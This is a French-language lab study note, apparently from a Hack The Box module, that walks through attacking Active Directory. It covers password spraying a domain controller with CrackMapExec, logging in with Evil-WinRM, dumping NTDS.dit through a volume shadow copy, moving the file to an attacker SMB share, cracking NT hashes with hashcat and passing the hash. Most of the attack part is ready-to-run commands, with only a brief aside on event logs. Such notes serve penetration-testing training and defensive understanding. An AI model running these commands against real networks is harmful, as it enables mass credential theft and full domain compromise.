# Attaque de l'active Directory & NTDS.dit

Les notes dans cette page concerne principalement la façon dont nous pouvons extraire les informations d'identification en utilisant une attaque par dictionnaire contre les comptes AD et en vidant les hachages du fichier NTDS.dit.

On considère que la cible doit être accessible sur le réseau, et qu'on ait un foothold établi dans le réseau interne.
Avant de voir l'attaque, rappelons le processus d'authentification une fois qu'un système Windows a rejoint un domaine afin de mieux comprendre l'intérêt de l'activite directory dans cette attaque.

### Mise en contexte
Une fois qu'un  système Windows rejoint un domaine, il ne fera plus référence par défault à la Base de données SAM pour faire des authentifications.
Le système Windows ayant rejoint le domaine transmettra toutes les requêtes d'authentification au domain controller.

Quelqu'un voulant s'authentifier à partir d'un compte local dans le SAM pourra le faire en spécifiant le nom de l'hôte du matériel avant le nom d'utilisateur (example **WS01:Username**), ou en ayant directement accès à l'appareil et en tapant **./** dans l'UI de login dans le champ **Utilisateur**.

## Attaques par dictionnaire contre des comptes AD à l'aide de CrackMapExec
L'idée est de se confectionner un dictionnaire à partir des noms d'employés trouvés sur les réseaux sociaux et du domaine de l'entreprise que l'on vise et qui est facilement disponible sur google.
Les conventions sont souvent les mêmes, du style "nom.prenom, n.prenom, etc".

Il existe des outils comme [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) pour confectionner des listes de pseudos à partir d'une liste de nom / prénom.


```console
Misoko@htb[/htb]$ ./username-anarchy -i /home/names.txt 
```

## Lancer l'attaque avec CrackMapExec
Voici des conventions communes pour faire des listes pour une attaque par dictionnaire:
| Username Convention               | Practical Example for Jane Jill Doe |
|-----------------------------------|-------------------------------------|
| firstinitiallastname              | jdoe                                |
| firstinitialmiddleinitiallastname | jjdoe                               |
| firstnamelastname                 | janedoe                             |
| firstname.lastname                | jane.doe                            |
| lastname.firstname                | doe.jane                            |
| nickname                          | doedoehacksstuff                    |

Une fois la liste confectionnée, nous pouvons lancer notre attaque contre le contrôleur de domaine cible en utilisant un outil tel que CrackMapExec. Nous pouvons l'utiliser en conjonction avec le protocole SMB pour envoyer des demandes de connexion au contrôleur de domaine cible.
```console
Misoko@htb[/htb]$ crackmapexec smb 10.129.201.57 -u jDoe -p /usr/share/wordlists/fasttrack.txt
```
Dans l'exemple précédent, on essaye de se connection en tant qu'utilisateur **-u jDoe** avec la liste de mots de passes **usr/share/wordlists/fasttrack.txt**.

Il est possible en fonction de la politique de blocage de comptes que notre attaque provoque le blocage de l'utilisateur en question.
Par défaut, ce genre de politique n'est pas mis en place au moment de ces notes (février 2023).

## Logs provenant de l'attaque
Il peut être intéréssant pour la cible de savoir où se trouvent les traces de l'attaque afin de renforcer les politiques de sécurité.
<img src="../images/eventLogPanel.png " alt= “” width="700" height="350"/>

Sur n'importe quel système d'exploitation Windows, un administrateur peut naviguer dans l'Observateur d'événements **(Event Viewer)** et afficher les événements de sécurité pour voir les actions exactes qui ont été enregistrées.
## Capturer NTDS.dit
NT Directory Services (NTDS) est un service d'annuaire utilisé en tant que composant de l'AD, ayant la responsablité de trouver et organiser les ressources réseaux.
On rapelle que **NTDS.dit** est stocké dans **%systemroot$/ntds** sur les controleurs de domaine d'une forêt. Le **.dit** signifie [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html).

Il s'agit du **principal fichier de base de données associé à AD et il stocke tous les noms d'utilisateur de domaine, les hachages de mots de passe et d'autres informations essentielles du schéma.**
Si ce fichier peut être capturé, nous pouvons potentiellement compromettre tous les comptes du domaine, à l'instar de la technique d'attaque de SAM vu auparavant.

### Connection à un controleur de domaine (DC) avec Evil-WinRM
```console
Misoko@htb[/htb]$ evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```
Evil-WinRM se connecte à une cible en utilisant le service de gestion à distance de Windows **(WinRM)** combiné au protocole PowerShell Remoting pour établir une session PowerShell avec la cible.

### Vérification de l'appartenance à un groupe local
Une fois connecter, on peut voir quel privilège prossède l'utilisateur de la session **(bwilliamson)** ici.
### Appartenance au groupe local
```console
*Evil-WinRM* PS C:\> net localgroup
```
Le but est de regarder si le compte possède des droits d'admin locaux afin de voir le fichier **NTDS.dt**. On a besoin des droits d'admin locaux **(Administrators group)** ou d'admin du domaine **(Domain Admin group)**.

### Vérification des privilèges des comptes utilisateurs dans le domaine
```console
*Evil-WinRM* PS C:\> net user bwilliamson
```

### Création d'une Shadow copie de C:
On peut utiliser **vssadmin** pour créé un VSS **(Volume Shadow Copy)** de C: ou de toute autre volume de disque choisis par l'admin pour l'installation de l'AD.
Par défaut, NTDS est installé sur le C: mais l'admin a pu choisir autrement.
On utilise VSS car il a été désigné pour la copie de volumes sans avoir forcémment besoin d'interrompre des applications / systèmes.

```console
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```

### Copier NTDS.dit à partir du VSS

Nous pouvons copier le fichier NTDS.dit de la copie d'ombre du volume de C : vers un autre emplacement sur le disque pour nous préparer à déplacer NTDS.dit vers notre hôte d'attaque.

```console
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
Avec **\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2** le nom du volume de la copie shadow.

### Transfert de NTDS.dit vers l'hôte d'attaque
Nous pouvons utiliser **cmd.exe /c move** pour déplacer le fichier depuis le domaine controller cible vers l'hôte d'attaque.

```console
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\Misoko 
```
En sachant que sur l'hôte d'attaque, on a un serveur smb qui recevra le fichier.


### Méthode plus rapide : Utilisation cme pour capturer NTDS.dit

Une autre alternative réside dans le fait d'utiliser **CrackMapExec** pour accomplir toutes les étapes précédentes avec une seule commande. Cette commande va utiliser VSS pour capturer et dump rapidement le contenu du fichier **NTDS.dit**.

```console
Misoko@htb[/htb]$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

## Cracker les Hashees et Obtenir les Credentials

Nous pouvons mettre tous les hashes NT dans un fichier ou les cracker individuellement avec Hashcat.

```console
Misoko@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

## Attaque "Pass the hash"
Quand on arrive à craquer le hash pour obtenir les identifiants, on peut facilement continuer notre chemin.
Cependant quand ce n'est pas le cas, il existe une attaque intitulé **"Pass the Hash" (PtH)**.
L'attaque **Pth** profite du **protocole d'authentification NTLM**, qui permet d'authentificer un utilisateur à partir d'un hash plutôt qu'un mot de passe en clair. On peut ainsi opérer de la sorte avec **Evil-WinRM.**
C'est une technique très utilisée pour faire du mouvement latéral une fois la compromision initiale faite.
```console
Misoko@htb[/htb]$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

